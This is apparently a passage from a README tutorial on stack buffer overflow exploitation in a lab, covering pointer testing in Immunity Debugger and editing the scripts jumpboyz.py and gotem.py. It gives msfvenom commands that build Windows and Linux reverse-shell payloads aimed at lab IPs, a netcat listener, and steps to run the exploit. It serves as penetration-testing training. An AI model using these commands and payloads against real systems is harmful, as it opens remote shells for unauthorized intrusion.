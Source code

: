 11. Edit the included jumpboyz.py script, edit the shellcode string with the reversed version of one of the results you got from step 10, for example: "\xaf\x11\x50\x62" represents 625011af. Ensure you edit the IP, port, and command of the script.
12. Go back to Immunity's CPU window, click the black arrow, and type in the pointer tested to follow the expression (for instance: 625011af)
13. Click the pointer in the window in the top left-hand corner, click F2, you should see the value highlighted with a color. The objective is to set a break-point for testing.
14. Now, you can click the "Play" button and observe "Running" in the bottom corner of Immunity.
15. Run the python script
**Command: python jumpboyz.py**
16. If you see the pointer value written to the EIP, you can now generate Shellcode. If you don't see it, repeat the process with other column pointer values you identified as false from Step 9.

# 8. Exploiting the System
The last step in this process, generating Shellcode and ensuring that we can exploit the system.
1. Restart Immunity/your exe program and get setup.
2. Generate the Payload: 
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.82 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
Example: 
![image](https://user-images.githubusercontent.com/17016378/128985928-683b8556-2a94-455f-9499-5925429923c0.png)

3. Replace the LHOST with your Kali Machine IP and replace the -b switch with the bad characters that you had identified earlier. In this instance, there's only one bad character represented by "\x00"
4. Edit the included gotem.py script. Ensure that your exploitation IP and Port and command values are correct. Take your generated Shellcode and replace the overflow value that is currently in the script.
5. Ensure that all variables are correct, including your exact byte value, pointer value, etc. 
6. Start your netcat listener:
**Command: nc -lvp 4444**
7. Run the script:
**Command: python gotem.py**
8. If the shell doesn't catch, try to change the padding value in the script from 32 to 16 or 8. It may take some trial and error.
9. You should now have a shell, congratulations.

# Linux Considerations
So you're a cool cat, huh? Going after Linux? That's fine! Let me share some minor differences with you so that you do not go crazy.

1. If you don't want to use a Linux Debugging program, that's fine; you can use Immunity, but please let me explain.
2. If you're attacking a Linux machine, copy the EXE that you find over to your Windows host.
3. Perform testing with the same methodology defined above, with a few differences: Use your Windows IP address within all of the scripts. The testing process isn't going to work with the Linux Machine's IP address.You will have to generate Linux Shellcode.
4. Once you have shelled your Windows system, it's time to make some quick changes to shell the Linux system.
5. Generate Linux Shellcode:
**Command: msfvenom -p linux/x86/shell_reverse_tcp lhost=10.2.12.189 lport=4444 -f python -b '\x00'**
6. Replace the localhost with your Kali Machine and the bad characters that come after the -b switch
7. Edit your gotem.py script, replace the IP and Port with the Linux Machine IP and port, and edit the command that you tested against with the vulnerable command.
8. Delete the entire overflow section, paste the payload that you generate into this section.
9. change the overflow variable in the shellcode, it should be **buf** instead
10. Save the script! 
11. Run the script:
**Command: python gotem.py**
